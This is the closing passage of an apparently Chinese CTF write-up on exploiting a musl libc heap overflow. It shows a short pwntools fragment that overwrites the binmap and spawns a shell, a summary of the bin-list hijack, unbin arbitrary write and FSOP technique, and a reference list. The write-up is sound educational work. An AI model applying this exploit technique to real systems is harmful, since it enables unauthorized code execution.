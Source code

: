 ```
edit(13, 'X' * 0x10 + p64(0) + 'n')    # binmap

# 4. get shell
p.sendlineafter("&gt;", '1')
p.sendlineafter("What is your prefer size? &gt;", '0')

p.interactive()
```



## 5. 总结

本文展示了在 musl libc 环境下，如何利用堆溢出漏洞劫持 bin 链表头部，通过 unbin 修改链表指针实现任意地址写，最后通过 FSOP 得到 shell。此外，还介绍了 musl libc 堆管理器的大致实现、malloc 返回任意堆地址的方法、出题失误以及其修复方法。



## 6. 参考
1. [musl libc 源码（Github 镜像）](https://github.com/bminor/musl)
1. [mmap 帮助文档](http://man7.org/linux/man-pages/man2/mmap.2.html)
1. [mmap 地址随机化实现](https://github.com/0xricksanchez/articles/tree/master/ASLR#mmap-randomization)
1. [brk 帮助文档](http://man7.org/linux/man-pages/man2/brk.2.html)
1. [brk 地址随机化实现](https://github.com/0xricksanchez/articles/tree/master/ASLR#brk-randomization)